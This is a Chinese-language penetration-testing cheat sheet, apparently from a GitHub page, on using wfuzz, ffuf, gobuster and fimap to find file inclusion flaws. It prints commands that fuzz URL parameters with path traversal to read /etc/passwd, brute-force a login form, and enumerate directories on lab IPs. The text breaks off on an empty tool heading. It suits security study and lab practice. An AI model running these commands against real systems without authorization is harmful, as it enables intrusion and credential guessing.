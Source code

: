通过在URL中在`？`后面设置FUZZ占位符，我们就可以使用wfuzz来测试URL传入的参数：  


```
wfuzz -u 192.168.216.142/test.php?FUZZ=/etc/passwd  -w /usr/share/wfuzz/wordlist/others/common_pass.txt --hh 80
```

#### 测试POST请求

如果想使用wfuzz测试form-encoded的数据，比如 HTML表单那样的，只需要传入-d参数即可：

```
wfuzz -z file,/usr/share/wfuzz/wordlist/others/common_pass.txt -d "uname=FUZZ&pass=FUZZ" --hc 302 http://testphp.vulnweb.com/userinfo.php
```

```
wfuzz -w /usr/share/dirb/wordlists/common.txt -u 192.168.56.113/FUZZ  --hc 404
wfuzz -w /usr/share/dirb/wordlists/common.txt -u 192.168.56.113/secret/FUZZ --hc 404
wfuzz -w /usr/share/dirb/wordlists/common.txt -u 192.168.56.113/secret/FUZZ.php --hc 404
wfuzz -w /usr/share/dirb/wordlists/common.txt -u 192.168.56.113/secret/evil.php?FUZZ=FUZ2Z --hc 404
wfuzz -u "192.168.9.62/secret/evil.php?FUZZ=../../../../etc/passwd" -w /usr/share/dirb/wordlists/common.txt --hw 0
```
### 工具: FFuF

```
ffuf -w <wordlist> -u http://example.com/index.php?include=FUZZ
```
- `-w <wordlist>`：指定字典文件路径
- `-u`：用于指定目标URL，通常用 `FUZZ` 表示被替换的部分

### 工具: GoBuster

- **命令格式及示例**：
```
gobuster dir -u http://example.com/index.php?file=FUZZ -w /home/user/file_include_dict.txt -x php,txt
```
各参数含义：
- `-x`：是文件扩展名列表，例如 `php,txt` 


### 工具：fimap

[fimap - https://github.com/kurobeats/fimap](https://github.com/kurobeats/fimap)  

```
fimap -u <ip-address>
```

### 工具：File Include Buster

一个专门用于检测文件包含漏洞的Python工具。
    
### 工具：GFILePUSY

